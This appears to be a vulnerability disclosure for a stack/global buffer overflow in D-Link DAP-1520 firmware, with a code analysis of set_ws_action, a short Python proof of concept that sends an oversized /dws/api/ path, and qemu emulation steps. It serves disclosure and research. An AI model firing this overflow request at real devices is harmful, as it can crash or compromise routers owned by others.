




## Overview

| Firmware Name | Firmware Version         | Download Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis



Before further processing, the global variable ws_action is initialized using memset(&ws_action, 0, 20) to clear its 20-byte buffer.

If the http request path start with "/dws/api/",the set_ws_action function is provided below for reference.



First, use the `strchr` function to find the first occurrence of `'?'` in `a1` and store its address in the pointer `V1`. Then, calculate the `size` based on the distance from the start address of `a1` to `'?'`. Finally, copy all the data from the start address of `a1` to `'?'` into the global variable `ws_action`.

The global variable ws_action is located at address 0x0046DBC0 and has a buffer of only 20 bytes, making it susceptible to buffer overflow.



## POC

```py
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/dws/api/{cyclic(1200).decode('utf-8')}?"
print(requests.get(url).text)
```

## qemu-mipsel-static

```
cd etc/conf.d
sudo rm -f auth.conf
cp auth_base.conf auth.conf
cd ..
cd ..
cd tmp/
mkdir log
cd log/
mkdir lighttpd
cd ..
cd ..
cp $(which qemu-mipsel-static) .
sudo chroot ./ ./qemu-mipsel-static  sbin/lighttpd -D -f etc/lighttpd_base.conf
```

